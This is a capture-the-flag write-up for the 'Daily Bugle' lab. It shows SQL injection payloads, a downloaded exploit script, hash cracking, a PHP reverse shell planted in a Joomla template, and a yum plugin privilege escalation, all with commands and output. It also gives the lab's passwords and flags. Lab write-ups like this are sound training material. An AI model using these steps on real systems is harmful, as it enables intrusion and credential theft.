



# Daily Bugle

Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

# [Task 1] Deploy

## #1.1 - Access the web server, who robbed the bank?
 
Nmap reveals 3 open ports on the server:

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
~~~

Let's start with port 80 (HTTP). When we connect to the home page, we see a post that relates a criminal activity from SpiderMan:

Answer: `spiderman`

# [Task 2] Obtain user and root

Hack into the machine and obtain the root user's credentials.

## #2.1 - What is the Joomla version?

*Hint: I wonder if this version of Joomla is vulnerable...*

According to the `README.txt` file left on the server, the version is running version 3.7:

~~~
unknown@kali:/data/tmp$ curl -s http://10.10.233.69/README.txt | head
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.7 version history - https://docs.joomla.org/Joomla_3.7_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/master

2- What is Joomla?
	* Joomla! is a Content Management System (CMS) which enables you to build Web sites and powerful online applications.
	* It's a free and Open Source software, distributed under the GNU General Public License version 2 or later.
	* This is a simple and powerful web server application and it requires a server with PHP and either MySQL, PostgreSQL or SQL Server to run.
~~~

Running Joomscan reveals that the version is 3.7.0.

~~~
unknown@kali:/data/tmp$ joomscan --url http://10.10.233.69
    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
			(1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://10.10.233.69 ...

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[REDACTED]
~~~

Answer: `3.7.0`

## #2.2 - What is Jonah's cracked password? (Instead of using SQLMap, why not use a python script!)

*Hint: SQLi & JohnTheRipper*

We can confirm that this version of Joomla is vulnerable to [CVE-2017-8917](https://www.exploit-db.com/exploits/42033) with sqlmap:

~~~
unknown@kali:/data/tmp$ sqlmap -u "http://10.10.233.69/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

[REDACTED]

GET parameter 'list[fullordering]' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 2547 HTTP(s) requests:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 7187 FROM(SELECT COUNT(*),CONCAT(0x717a767071,(SELECT (ELT(7187=7187,1))),0x7178786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 9077 FROM (SELECT(SLEEP(5)))sqVI)
---
[16:54:41] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[16:54:42] [INFO] fetching database names
[16:54:42] [INFO] retrieved: 'information_schema'
[16:54:42] [INFO] retrieved: 'joomla'
[16:54:42] [INFO] retrieved: 'mysql'
[16:54:43] [INFO] retrieved: 'performance_schema'
[16:54:43] [INFO] retrieved: 'test'
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test

[16:54:43] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 2507 times
[16:54:43] [INFO] fetched data logged to text files under '/home/unknown/.sqlmap/output/10.10.233.69'

[*] ending @ 16:54:43 /2020-06-14/

~~~

We can find existing exploits, like this one:

~~~
unknown@kali:/data/tmp$ wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
unknown@kali:/data/tmp$ python joomblah.py http://10.10.233.69

[REDACTED]

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
~~~

Now that we have Jonah's hash, let's crack it with John:

~~~
unknown@kali:/data/tmp$ cat jonah.hash 
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
unknown@kali:/data/tmp$ /data/src/john/run/john jonah.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
1g 0:00:09:27 DONE (2020-06-14 17:12) 0.001762g/s 82.55p/s 82.55c/s 82.55C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

Jonah's password is `spiderman123`.

## #2.3 - What is the user flag?

Download a PHP reverse shell (http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz). Open a listener:

~~~
$ rlwrap nc -nlvp 4444
~~~

Go to the `administrator` directory and login with `jonah:spiderman123`.

Once logged in, go to `Extensions > Templates > Templates` and select `Beez3`:

Now click on `index.php` and replace the content with the code from the PHP reverse shell you have downloaded (remember to put your IP address and port). Then click on `Save`.

.

Now browse http://10.10.233.69/templates/beez3/index.php and you should get a reverse shell.

First thing on the server was to list the homes, find users (`jjameson` is the only user in `/home`), and try to find `user.txt` (common name for user flag). No luck.

Then, I inspected the `/var/www/html/` directory and extracted the following information from the `configuration.php` file, which reveals the password for the database.

~~~
sh-4.2$ cat configuration.php
cat configuration.php
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance. Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'The Daily Bugle';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';
[REDACTED]
~~~

And by chance, this password is also the one from the jjameson's user!

~~~
sh-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu

$ whoami
jjameson
$ cd
$ ls
user.txt
$ cat user.txt
27a260fe3cba712cfdedb1c86d80442e
~~~

User flag: `27a260fe3cba712cfdedb1c86d80442e`

## #2.4 - What is the root flag?

*Hint: https://gtfobins.github.io/*

Now, let's leave our reverse shell and connect directly to SSH with su `jjameson:nv5uz9r3ZEDzVjNu`. First thing will be to check our privileges:

~~~
unknown@kali:/data/tmp$ ssh jjameson@10.10.233.69
jjameson@10.10.233.69's password: 
Last login: Sun Jun 14 12:07:53 2020
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
~~~

yum? Let's check the OS:

~~~
[jjameson@dailybugle ~]$ cat /etc/redhat-release 
CentOS Linux release 7.7.1908 (Core)
~~~

Interestingly, the server is running on CentOS. Having a look a GTFOBins confirms several privesc with yum. Let's try.

~~~
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
sh-4.2# cd /root
sh-4.2# ls
anaconda-ks.cfg  root.txt
sh-4.2# cat root.txt
eec3d53292b1821868266858d7fa6f79
~~~

Root flag: `eec3d53292b1821868266858d7fa6f79`
